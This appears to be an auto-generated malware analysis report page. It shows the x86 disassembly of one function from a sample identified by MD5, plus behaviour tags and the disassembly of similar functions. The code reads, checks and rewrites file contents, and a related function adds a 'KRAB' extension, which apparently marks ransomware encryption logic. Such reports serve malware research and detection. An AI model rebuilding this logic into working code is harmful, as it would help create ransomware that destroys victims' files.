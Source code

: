 ```yaml
---
layout: post
title:  "fcn.00401261 @ 470263fe7e7cc115b95cd041d643e3b5"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00401261
- **Origin (md5):** 470263fe7e7cc115b95cd041d643e3b5
- **VirusTotal:** [virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Behaviour Tags
<span class="bhv-tag" id="MODIFIES_DACL">MODIFIES_DACL / 0.1001418783229222</span><span class="bhv-tag" id="CONNECTS_TO_LISTENER">CONNECTS_TO_LISTENER / 0.14637605948258506</span><span class="bhv-tag" id="CREATES_SOCKET_LISTENER">CREATES_SOCKET_LISTENER / 0.030017397865540765</span><span class="bhv-tag" id="WRITES_STARTUP_REGISTRY">WRITES_STARTUP_REGISTRY / 0.08034023973205327</span>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [-63.67078399658203, 14.065004348754883, '<b><a href="/report/fcn.00401261@470263fe7e7cc115b95cd041d643e3b5">fcn.00401261</a><br>@470263fe7e7cc115b95cd041d643e3b5</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0xa4<br>push ebx<br>push esi<br>push edi<br>mov edi, ecx<br>mov dword[ebp-0xc], edx<br>xor ebx, ebx<br>mov ecx, 0x21c<br>mov dword[ebp-8], ebx<br>call fcn.00408cd4<br>mov esi, eax<br>mov dword[ebp-0x24], esi<br>test esi, esi<br>jne 0x401291<br>xor eax, eax<br>jmp 0x4014d2<br>push ebx<br>push 0x88000000<br>push 3<br>push ebx<br>push ebx<br>push 0xc0000000<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CreateFileW]<br>mov edi, eax<br>cmp edi, 0xffffffff<br>je 0x4014b7<br>push 2<br>push ebx<br>push 0xffffffffffffffff<br>push 0xfffffde4<br>push edi<br>call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]<br>test eax, eax<br>je 0x401331<br>push ebx<br>lea eax, [ebp-8]<br>push eax<br>push 0x21c<br>push esi<br>push edi<br>call dword[sym.imp.KERNEL32.dll_ReadFile]<br>test eax, eax<br>je 0x40131a<br>cmp dword[esi+0x214], 0x93892918<br>jne 0x40131a<br>cmp dword[esi+0x218], 0x38281<br>jne 0x40131a<br>mov eax, dword[ebp+0x10]<br>push dword[eax+0x1c]<br>push dword[eax+0x20]<br>push ebx<br>push ebx<br>push edi<br>call dword[sym.imp.KERNEL32.dll_UnlockFile]<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>mov ecx, esi<br>call fcn.00408ce5<br>jmp 0x40128a<br>push ebx<br>push ebx<br>xorps xmm0, xmm0<br>movlpd qword[ebp-0x18], xmm0<br>push dword[ebp-0x14]<br>push dword[ebp-0x18]<br>push edi<br>call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]<br>push dword[ebp-0xc]<br>lea edx, [ebp-0x34]<br>mov dword[ebp-8], ebx<br>push esi<br>lea ecx, [ebp-0x54]<br>call fcn.00401180<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x40130e<br>push 0x40<br>pop eax<br>mov byte[ebp-0x60], bl<br>dec eax<br>jne 0x40134c<br>push ecx<br>push 0x100<br>lea edx, [ebp-0x54]<br>lea ecx, [ebp-0xa0]<br>call fcn.00406de8<br>mov eax, dword[ebp-0x34]<br>add esp, 8<br>mov ecx, dword[esi+0x210]<br>mov dword[ebp-0x88], eax<br>inc ecx<br>mov eax, dword[ebp-0x30]<br>mov dword[ebp-0x84], eax<br>mov dword[ebp-0x80], ebx<br>mov dword[ebp-0x7c], ebx<br>call fcn.00408cd4<br>mov ecx, dword[esi+0x210]<br>add ecx, 5<br>mov dword[ebp-0x10], eax<br>call fcn.00408cd4<br>mov dword[ebp-0xc], eax<br>mov dword[ebp-4], ebx<br>push ebx<br>lea eax, [ebp-8]<br>push eax<br>push dword[esi+0x210]<br>push dword[ebp-0x10]<br>push edi<br>call dword[sym.imp.KERNEL32.dll_ReadFile]<br>test eax, eax<br>je 0x401466<br>mov ecx, dword[ebp-8]<br>test ecx, ecx<br>je 0x401466<br>cmp ecx, dword[esi+0x210]<br>mov eax, dword[ebp-4]<br>push 1<br>pop edx<br>cmovb eax, edx<br>cmp dword[ebp+0xc], ebx<br>mov edx, dword[ebp-0x10]<br>cmovne eax, dword[ebp+0xc]<br>add dword[esi+0x200], ecx<br>lea ecx, [ebp-0xa0]<br>mov dword[ebp-4], eax<br>adc dword[esi+0x204], ebx<br>mov eax, dword[ebp-8]<br>mov esi, dword[ebp-0xc]<br>push eax<br>push esi<br>mov dword[ebp-0x1c], eax<br>call fcn.00406e65<br>mov eax, dword[ebp-0x1c]<br>pop ecx<br>pop ecx<br>xor ecx, ecx<br>neg eax<br>inc ecx<br>cdq <br>push ecx<br>push ebx<br>push edx<br>push eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]<br>mov eax, ebx<br>mov dword[ebp-0x14], ebx<br>cmp eax, 0x64<br>jge 0x40144f<br>push ebx<br>lea eax, [ebp-0x2c]<br>push eax<br>push dword[ebp-0x1c]<br>push esi<br>push edi<br>call dword[sym.imp.KERNEL32.dll_WriteFile]<br>test eax, eax<br>jne 0x40144f<br>push 0x64<br>call dword[sym.imp.KERNEL32.dll_Sleep]<br>mov eax, dword[ebp-0x14]<br>inc eax<br>mov dword[ebp-0x14], eax<br>jmp 0x401425<br>mov esi, dword[ebp-0x24]<br>xor eax, eax<br>mov ecx, dword[ebp-4]<br>inc eax<br>add dword[esi+0x208], eax<br>adc dword[esi+0x20c], ebx<br>jmp 0x40146e<br>xor eax, eax<br>lea ecx, [eax+1]<br>mov dword[ebp-4], ecx<br>test ecx, ecx<br>je 0x4013a4<br>cmp dword[ebp+0xc], ebx<br>je 0x401493<br>push 2<br>push ebx<br>xorps xmm0, xmm0<br>movlpd qword[ebp-0x28], xmm0<br>push dword[ebp-0x24]<br>push dword[ebp-0x28]<br>push edi<br>call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]<br>push ebx<br>lea eax, [ebp-0x2c]<br>push eax<br>push 0x21c<br>push esi<br>push edi<br>call dword[sym.imp.KERNEL32.dll_WriteFile]<br>mov ecx, dword[ebp-0x10]<br>mov ebx, eax<br>call fcn.00408ce5<br>mov ecx, dword[ebp-0xc]<br>call fcn.00408ce5<br>mov ecx, esi<br>call fcn.00408ce5<br>cmp edi, 0xffffffff<br>je 0x4014d0<br>mov eax, dword[ebp+0x14]<br>push edi<br>or dword[eax], 0xffffffff<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>mov eax, ebx<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'point { fill-color: #e0440e; }'],
[-30.67436981201172, 110.82127380371094, '<b><a href="/report/fcn.0040764a@470263fe7e7cc115b95cd041d643e3b5">fcn.0040764a</a><br>@470263fe7e7cc115b95cd041d643e3b5</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0x38<br>mov eax, dword[0x423304]<br>push ebx<br>push esi<br>xor ebx, ebx<br>mov dword[ebp-8], edx<br>mov esi, ecx<br>push edi<br>mov edi, ebx<br>test eax, eax<br>je 0x407673<br>push eax<br>call dword[sym.imp.KERNEL32.dll_lstrlenW]<br>lea edi, [eax*2+2]<br>push esi<br>call dword[sym.imp.KERNEL32.dll_lstrlenW]<br>add eax, edi<br>lea ecx, [eax*2+0x18]<br>call fcn.00408cd4<br>mov edi, eax<br>test edi, edi<br>je 0x4077ad<br>mov eax, dword[0x423304]<br>test eax, eax<br>jne 0x4076ad<br>push esi<br>push str._s.KRAB<br>push edi<br>call dword[sym.imp.USER32.dll_wsprintfW]<br>add esp, 0xc<br>jmp 0x4076be<br>push eax<br>push esi<br>push str._s_s<br>push edi<br>call dword[sym.imp.USER32.dll_wsprintfW]<br>add esp, 0x10<br>mov ecx, esi<br>call fcn.004074e1<br>test eax, eax<br>jne 0x4077a4<br>mov ecx, esi<br>call fcn.004071ba<br>test eax, eax<br>jne 0x4077a1<br>mov eax, dword[ebp-8]<br>cmp dword[eax+0x20], 2<br>jb 0x4077a1<br>mov ecx, esi<br>call fcn.00407410<br>xor ecx, ecx<br>xor edx, edx<br>inc ecx<br>test eax, eax<br>cmovne ecx, edx<br>mov dword[ebp-4], ecx<br>cmp dword[0x423310], edx<br>jne 0x407775<br>push 0x6e<br>pop eax<br>push 0x74<br>mov word[ebp-0x38], ax<br>pop eax<br>push 0x64<br>pop ecx<br>push 0x6c<br>pop edx<br>mov word[ebp-0x36], ax<br>push 0x2e<br>pop eax<br>mov word[ebp-0x2e], ax<br>xor eax, eax<br>mov dword[ebp-0x26], eax<br>lea eax, [ebp-0x38]<br>push eax<br>mov word[ebp-0x34], cx<br>mov word[ebp-0x32], dx<br>mov word[ebp-0x30], dx<br>mov word[ebp-0x2c], cx<br>mov word[ebp-0x2a], dx<br>mov word[ebp-0x28], dx<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]<br>test eax, eax<br>je 0x407772<br>movdqa xmm0, xmmword[0x41a890]<br>lea ecx, [ebp-0x20]<br>push ecx<br>push eax<br>movdqu xmmword[ebp-0x20], xmm0<br>mov dword[ebp-0x10], 0x656c6946<br>mov byte[ebp-0xc], bl<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>mov dword[0x423310], eax<br>mov ecx, dword[ebp-4]<br>mov edx, dword[ebp+8]<br>lea eax, [ebp-4]<br>push eax<br>push dword[ebp-8]<br>mov dword[ebp-4], ebx<br>push ecx<br>push ecx<br>mov ecx, esi<br>call fcn.00401261<br>add esp, 0x10<br>test eax, eax<br>je 0x4077a1<br>cmp dword[ebp-4], ebx<br>je 0x4077a1<br>push 1<br>push edi<br>push esi<br>call dword[sym.imp.KERNEL32.dll_MoveFileExW]<br>xor ebx, ebx<br>inc ebx<br>mov ecx, edi<br>call fcn.00408ce5<br>mov eax, ebx<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],
[-95.77222442626953, 64.07429504394531, '<b><a href="/report/fcn.004640b1@d96761eb00d2d97e2b6f5ffffed0b46a">fcn.004640b1</a><br>@d96761eb00d2d97e2b6f5ffffed0b46a</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0x234<br>push ebx<br>push esi<br>push edi<br>xor esi, esi<br>push esi<br>push 0x80<br>push 3<br>pop ebx<br>push ebx<br>push esi<br>push ebx<br>push 0xc0000000<br>push ecx<br>call dword[sym.imp.KERNEL32.dll_CreateFileW]<br>mov edi, eax<br>cmp edi, 0xffffffff<br>jne 0x4640e5<br>mov eax, 0x80004005<br>jmp 0x464161<br>push 0x228<br>lea eax, [ebp-0x230]<br>push esi<br>push eax<br>call fcn.00423020<br>add esp, 0xc<br>mov dword[ebp-0x224], ebx<br>mov edx, 0x200<br>mov byte[ebp-0x20a], 0xec<br>mov dword[ebp-0x228], edx<br>mov dword[ebp-4], esi<br>push 0x28<br>pop ecx<br>push 2<br>pop eax<br>push esi<br>mov word[ebp-0x22e], ax<br>lea eax, [ebp-4]<br>push eax<br>push edx<br>lea eax, [ebp-0x230]<br>mov word[ebp-0x230], cx<br>push eax<br>push edx<br>push eax<br>push 0x4d02c<br>push edi<br>mov dword[ebp-0x21c], ecx<br>call dword[sym.imp.KERNEL32.dll_DeviceIoControl]<br>push edi<br>mov esi, eax<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>test esi, esi<br>je 0x4640de<br>xor eax, eax<br>cmp word[ebp-0x56], 1<br>setne al<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],
[-16.36052894592285, 53.32271957397461, '<b><a href="/report/fcn.00408ec1@470263fe7e7cc115b95cd041d643e3b5">fcn.00408ec1</a><br>@470263fe7e7cc115b95cd041d643e3b5</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0x58<br>push ebx<br>push esi<br>push edi<br>push 0xf0000000<br>xor eax, eax<br>mov dword[ebp-0xc], ecx<br>inc eax<br>xor esi, esi<br>push eax<br>push esi<br>push esi<br>lea eax, [ebp-8]<br>mov edi, edx<br>push eax<br>call dword[sym.imp.ADVAPI32.dll_CryptAcquireContextW]<br>test eax, eax<br>je 0x408fee<br>push 0x1a<br>xor ecx, ecx<br>pop edx<br>lea eax, [ecx+0x61]<br>mov byte[ebp+ecx-0x58], al<br>inc ecx<br>cmp ecx, edx<br>jb 0x408ef3<br>lea eax, [edi+1]<br>push eax<br>lea ecx, [ebp-0x3c]<br>call fcn.0040623f<br>push edi<br>lea ecx, [ebp-0x3c]<br>call fcn.00406284<br>mov ebx, eax<br>test ebx, ebx<br>jne 0x408f33<br>push eax<br>push dword[ebp-8]<br>call dword[sym.imp.ADVAPI32.dll_CryptReleaseContext]<br>lea ecx, [ebp-0x3c]<br>call fcn.00406273<br>xor eax, eax<br>jmp 0x408ff0<br>lea eax, [ebp-0x1c]<br>mov dword[ebp-0x2c], 0x70797243<br>push eax<br>mov dword[ebp-0x28], 0x6e654774<br>mov dword[ebp-0x24], 0x646e6152<br>mov word[ebp-0x20], 0x6d6f<br>mov byte[ebp-0x1e], 0<br>mov dword[ebp-0x1c], 0x61766441<br>mov dword[ebp-0x18], 0x32336970<br>mov dword[ebp-0x14], 0x6c6c642e<br>mov byte[ebp-0x10], 0<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleA]<br>test eax, eax<br>jne 0x408f87<br>lea eax, [ebp-0x1c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_LoadLibraryA]<br>test eax, eax<br>je 0x408fdb<br>lea ecx, [ebp-0x2c]<br>push ecx<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>test eax, eax<br>je 0x408fdb<br>cmp dword[ebp+8], esi<br>jne 0x408fca<br>push ebx<br>push edi<br>push dword[ebp-8]<br>call eax<br>test eax, eax<br>je 0x408fdb<br>test edi, edi<br>je 0x408fc3<br>mov ecx, dword[ebp-0xc]<br>sub ebx, ecx<br>push 0x1a<br>pop esi<br>movzx eax, byte[ebx+ecx]<br>cdq <br>idiv esi<br>mov al, byte[ebp+edx-0x58]<br>mov byte[ecx], al<br>inc ecx<br>dec edi<br>jne 0x408fb2<br>xor eax, eax<br>lea esi, [eax+1]<br>jmp 0x408fdb<br>push dword[ebp-0xc]<br>push edi<br>push dword[ebp-8]<br>call eax<br>test eax, eax<br>push 1<br>pop eax<br>cmovne esi, eax<br>push 0<br>push dword[ebp-8]<br>call dword[sym.imp.ADVAPI32.dll_CryptReleaseContext]<br>lea ecx, [ebp-0x3c]<br>call fcn.00406273<br>mov eax, esi<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],
[-90.87288665771484, 123.29723358154297, '<b><a href="/report/fcn.00464d35@d96761eb00d2d97e2b6f5ffffed0b46a">fcn.00464d35</a><br>@d96761eb00d2d97e2b6f5ffffed0b46a</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0xc<br>push ebx<br>push esi<br>push edi<br>mov edi, dword[ebp+0x10]<br>mov eax, ecx<br>xor esi, esi<br>mov dword[ebp-4], eax<br>mov byte[0x4c62b7], 0<br>mov ebx, edx<br>test edi, edi<br>je 0x464d87<br>mov byte[0x4c62b8], 1<br>call dword[sym.imp.KERNEL32.dll_GetCurrentThreadId]<br>mov dword[ebp-0xc], eax<br>xor ecx, ecx<br>lea eax, [ebp+0x10]<br>mov dword[ebp-8], edi<br>push eax<br>push ecx<br>lea eax, [ebp-0xc]<br>push eax<br>push 0x465217<br>push ecx<br>push ecx<br>call fcn.004240c1<br>mov esi, eax<br>add esp, 0x18<br>mov eax, dword[ebp-4]<br>push dword[ebp+0xc]<br>push dword[ebp+8]<br>push ebx<br>push eax<br>call dword[sym.imp.USER32.dll_MessageBoxW]<br>mov edi, eax<br>test esi, esi<br>je 0x464db2<br>push 0xffffffffffffffff<br>push esi<br>mov byte[0x4c62b8], 0<br>call dword[sym.imp.KERNEL32.dll_WaitForSingleObject]<br>push esi<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>cmp byte[0x4c62b7], 1<br>jne 0x464dc0<br>or eax, 0xffffffff<br>jmp 0x464dc2<br>mov eax, edi<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push ebp
mov ebp, esp
sub esp, 0xa4
push ebx
push esi
push edi
mov edi, ecx
mov dword[ebp-0xc], edx
xor ebx, ebx
mov ecx, 0x21c
mov dword[ebp-8], ebx
call fcn.00408cd4
mov esi, eax
mov dword[ebp-0x24], esi
test esi, esi
jne 0x401291
xor eax, eax
jmp 0x4014d2
push ebx
push 0x88000000
push 3
push ebx
push ebx
push 0xc0000000
push edi
call dword[sym.imp.KERNEL32.dll_CreateFileW]
mov edi, eax
cmp edi, 0xffffffff
je 0x4014b7
push 2
push ebx
push 0xffffffffffffffff
push 0xfffffde4
push edi
call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]
test eax, eax
je 0x401331
push ebx
lea eax, [ebp-8]
push eax
push 0x21c
push esi
push edi
call dword[sym.imp.KERNEL32.dll_ReadFile]
test eax, eax
je 0x40131a
cmp dword[esi+0x214], 0x93892918
jne 0x40131a
cmp dword[esi+0x218], 0x38281
jne 0x40131a
mov eax, dword[ebp+0x10]
push dword[eax+0x1c]
push dword[eax+0x20]
push ebx
push ebx
push edi
call dword[sym.imp.KERNEL32.dll_UnlockFile]
push edi
call dword[sym.imp.KERNEL32.dll_CloseHandle]
mov ecx, esi
call fcn.00408ce5
jmp 0x40128a
push ebx
push ebx
xorps xmm0, xmm0
movlpd qword[ebp-0x18], xmm0
push dword[ebp-0x14]
push dword[ebp-0x18]
push edi
call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]
push dword[ebp-0xc]
lea edx, [ebp-0x34]
mov dword[ebp-8], ebx
push esi
lea ecx, [ebp-0x54]
call fcn.00401180
pop ecx
pop ecx
test eax, eax
je 0x40130e
push 0x40
pop eax
mov byte[ebp-0x60], bl
dec eax
jne 0x40134c
push ecx
push 0x100
lea edx, [ebp-0x54]
lea ecx, [ebp-0xa0]
call fcn.00406de8
mov eax, dword[ebp-0x34]
add esp, 8
mov ecx, dword[esi+0x210]
mov dword[ebp-0x88], eax
inc ecx
mov eax, dword[ebp-0x30]
mov dword[ebp-0x84], eax
mov dword[ebp-0x80], ebx
mov dword[ebp-0x7c], ebx
call fcn.00408cd4
mov ecx, dword[esi+0x210]
add ecx, 5
mov dword[ebp-0x10], eax
call fcn.00408cd4
mov dword[ebp-0xc], eax
mov dword[ebp-4], ebx
push ebx
lea eax, [ebp-8]
push eax
push dword[esi+0x210]
push dword[ebp-0x10]
push edi
call dword[sym.imp.KERNEL32.dll_ReadFile]
test eax, eax
je 0x401466
mov ecx, dword[ebp-8]
test ecx, ecx
je 0x401466
cmp ecx, dword[esi+0x210]
mov eax, dword[ebp-4]
push 1
pop edx
cmovb eax, edx
cmp dword[ebp+0xc], ebx
mov edx, dword[ebp-0x10]
cmovne eax, dword[ebp+0xc]
add dword[esi+0x200], ecx
lea ecx, [ebp-0xa0]
mov dword[ebp-4], eax
adc dword[esi+0x204], ebx
mov eax, dword[ebp-8]
mov esi, dword[ebp-0xc]
push eax
push esi
mov dword[ebp-0x1c], eax
call fcn.00406e65
mov eax, dword[ebp-0x1c]
pop ecx
pop ecx
xor ecx, ecx
neg eax
inc ecx
cdq
push ecx
push ebx
push edx
push eax
push edi
call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]
mov eax, ebx
mov dword[ebp-0x14], ebx
cmp eax, 0x64
jge 0x40144f
push ebx
lea eax, [ebp-0x2c]
push eax
push dword[ebp-0x1c]
push esi
push edi
call dword[sym.imp.KERNEL32.dll_WriteFile]
test eax, eax
jne 0x40144f
push 0x64
call dword[sym.imp.KERNEL32.dll_Sleep]
mov eax, dword[ebp-0x14]
inc eax
mov dword[ebp-0x14], eax
jmp 0x401425
mov esi, dword[ebp-0x24]
xor eax, eax
mov ecx, dword[ebp-4]
inc eax
add dword[esi+0x208], eax
adc dword[esi+0x20c], ebx
jmp 0x40146e
xor eax, eax
lea ecx, [eax+1]
mov dword[ebp-4], ecx
test ecx, ecx
je 0x4013a4
cmp dword[ebp+0xc], ebx
je 0x401493
push 2
push ebx
xorps xmm0, xmm0
movlpd qword[ebp-0x28], xmm0
push dword[ebp-0x24]
push dword[ebp-0x28]
push edi
call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]
push ebx
lea eax, [ebp-0x2c]
push eax
push 0x21c
push esi
push edi
call dword[sym.imp.KERNEL32.dll_WriteFile]
mov ecx, dword[ebp-0x10]
mov ebx, eax
call fcn.00408ce5
mov ecx, dword[ebp-0xc]
call fcn.00408ce5
mov ecx, esi
call fcn.00408ce5
cmp edi, 0xffffffff
je 0x4014d0
mov eax, dword[ebp+0x14]
push edi
or dword[eax], 0xffffffff
call dword[sym.imp.KERNEL32.dll_CloseHandle]
mov eax, ebx
pop edi
pop esi
pop ebx
mov esp, ebp
pop ebp
ret

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5